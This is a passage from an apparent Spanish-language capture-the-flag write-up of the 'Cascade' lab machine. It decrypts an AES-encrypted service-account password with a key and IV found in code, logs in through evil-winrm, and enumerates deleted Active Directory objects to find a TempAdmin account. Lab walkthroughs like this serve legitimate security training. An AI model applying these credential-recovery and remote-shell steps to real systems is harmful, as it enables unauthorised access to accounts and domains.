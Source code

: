 Del anterior fragmento de código, podemos deducir que el algoritmo de cifrado es `AES`, el tamaño de la llave es de `128`, el vector de inicialización (IV) es `1tdyjCbY1Ix49842` y el modo de cifrado es `CBC` (por bloques).

Con toda la información anterior procedemos a decodificar la contraseña que se encuentra en base64, usando la llave y el vector de inicialización. Para esto, utilizamos la herramienta web `CyberChef` y entramos al siguiente [link](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)AES_Decrypt(%7B'option':'UTF8','string':'c4scadek3y654321'%7D,%7B'option':'UTF8','string':'1tdyjCbY1Ix49842'%7D,'CBC','Raw','Raw',%7B'option':'Hex','string':''%7D)&input=QlFPNWw1S2o5TWRFclh4NlE2QUdPdz09) para ver el procedimiento realizado para decodificar la contraseña.

De esta forma, obtenemos la contraseña del usuario `ArkSvc` que es `w3lc0meFr31nd`y procedemos a conectarnos con`evil-winrm`

```
┌─[nicolasmira101@parrot]─[~]
└──╼ $sudo evil-winrm -i cascade.htb -u ArkSvc -p w3lc0meFr31nd

Evil-WinRM shell v2.3

*Evil-WinRM* PS C:\Users\arksvc\Documents> whoami
cascade\arksvc
```

En la fase de enumeración, en uno de los archivos de log,  `ArkAdRecycleBin.log` que se presenta a continuación, podemos observar que se estaba moviendo el usuario `TempAdmin` a la papelera reciclable.

```
8/12/2018 12:22	[MAIN_THREAD]	** STARTING - ARK AD RECYCLE BIN MANAGER v1.2.2 **
8/12/2018 12:22	[MAIN_THREAD]	Validating settings...
8/12/2018 12:22	[MAIN_THREAD]	Running as user CASCADE\ArkSvc
8/12/2018 12:22	[MAIN_THREAD]	Moving object to AD recycle bin CN=TempAdmin,OU=Users,OU=UK,DC=cascade,DC=local
8/12/2018 12:22	[MAIN_THREAD]	Successfully moved object. New location CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
8/12/2018 12:22	[MAIN_THREAD]	Exiting with error code 0
```

Revisando en internet cómo restaurar un usuario eliminado en Active Directory. Primero nos cercioramos que el usuario se encuentre efectivamente eliminado con el siguiente comando

```
*Evil-WinRM* PS C:\Users\arksvc\Documents> Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects

Deleted           : True
DistinguishedName : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
Name              : TempAdmin
                    DEL:f0cc344d-31e0-4866-bceb-a842791ca059
ObjectClass       : user
ObjectGUID        : f0cc344d-31e0-4866-bceb-a842791ca059
```

Y ahora con el siguiente comando, revisamos las propiedades del usuario `TempAdmin`
